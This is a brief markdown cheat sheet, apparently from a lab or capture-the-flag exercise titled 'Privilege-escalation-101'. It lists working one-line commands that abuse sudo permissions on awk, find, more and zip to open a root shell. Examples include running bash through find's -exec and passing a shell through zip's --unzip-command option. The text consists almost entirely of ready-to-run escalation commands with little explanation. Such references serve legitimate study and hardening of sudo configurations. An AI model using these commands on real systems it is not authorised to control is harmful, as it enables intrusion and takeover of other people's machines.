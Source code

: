 ## Problem: Privilege-escalation-101


## Explanation:

Exploiting sudo -rights:

### awk
`awk 'BEGIN {system("/bin/bash")}'`

### find
`sudo find / -exec bash -i \;`

`sudo find /dev/null -exec sh \;`

### more
```
sudo more /home/pelle/myfile
!/bin/bash
```

### zip
```
touch /tmp/test
sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
```
